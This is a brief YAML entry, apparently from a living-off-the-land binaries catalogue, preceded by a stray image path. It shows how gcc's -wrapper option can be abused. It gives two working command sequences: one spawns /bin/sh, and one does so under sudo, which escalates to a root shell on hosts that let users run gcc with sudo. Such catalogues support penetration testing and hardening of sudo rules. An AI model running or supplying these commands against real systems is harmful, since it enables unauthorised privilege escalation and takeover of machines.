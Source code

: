 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo '#!/bin/sh' > $TF/x
        echo '/bin/sh' >> $TF/x
        chmod +x $TF/x
        gcc -wrapper $TF/x $TF/x
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo '#!/bin/sh' > $TF/x
        echo '/bin/sh' >> $TF/x
        chmod +x $TF/x
        sudo gcc -wrapper $TF/x $TF/x
---
```

